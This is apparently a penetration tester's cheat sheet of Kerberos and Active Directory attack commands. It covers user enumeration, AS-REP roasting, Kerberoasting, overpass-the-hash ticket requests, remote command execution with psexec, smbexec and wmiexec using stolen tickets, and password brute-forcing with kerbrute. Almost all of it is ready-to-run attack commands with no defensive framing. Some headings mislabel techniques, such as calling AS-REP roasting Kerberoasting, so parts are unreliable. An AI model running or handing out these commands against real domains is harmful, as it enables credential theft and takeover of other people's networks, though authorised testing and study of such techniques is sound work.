 #### nmap
```bash - kali
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='$DOMAIN_NAME'" $TARGET
```

#### MSF
```metasploit - kali
use auxiliary/gather/kerberos_enumusers 
```

# Check for Kerberoasting: 
```bash - kali
GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip $TARGET -format hashcat/john
```

# GetUserSPNs
```bash - kali
impacket-GetUserSPNs $DOMAIN_NAME/$USER:$PASSWORD -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

```bash - kali
impacket-GetUserSPNs $DOMAIN_NAME/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

# Kerberoasting: 
```bash - kali
impacket-GetUserSPNs $DOMAIN_NAME/$USER:PASSWORD -outputfile <output_TGSs_file> 
```

#### Overpass The Hash/Pass The Key (PTK):
```bash - kali
python3 getTGT.py $DOMAIN_NAME/$USER -hashes [lm_hash]:<ntlm_hash> -dc-ip $DOMAIN_CONTROLLER_IP
```

```bash - kali
python3 getTGT.py $DOMAIN_NAME/$USER -aesKey <aes_key> -dc-ip $DOMAIN_CONTROLLER_IP
```

```bash - kali
python3 getTGT.py $DOMAIN_NAME/$USER:$PASSWORD -dc-ip $DOMAIN_CONTROLLER_IP
```

#### Using TGT key to execute remote commands from the following impacket scripts:
```bash - kali
python3 psexec.py $DOMAIN_NAME/$USER@$TARGET -k -no-pass
```

```bash - kali
python3 smbexec.py $DOMAIN_NAME/$USER@$TARGET -k -no-pass
```

```bash - kali
python3 wmiexec.py $DOMAIN_NAME/$USER@$TARGET -k -no-pass
```

https://www.tarlogic.com/blog/como-funciona-kerberos/
https://www.tarlogic.com/blog/como-atacar-kerberos/

```bash - kali
python kerbrute.py -dc-ip $TARGET -users /root/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain $DOMAIN_NAME -outputfile kb_extracted_passwords.txt
```

https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/
https://github.com/GhostPack/Rubeus
https://github.com/fireeye/SSSDKCMExtractor
https://gitlab.com/Zer1t0/cerbero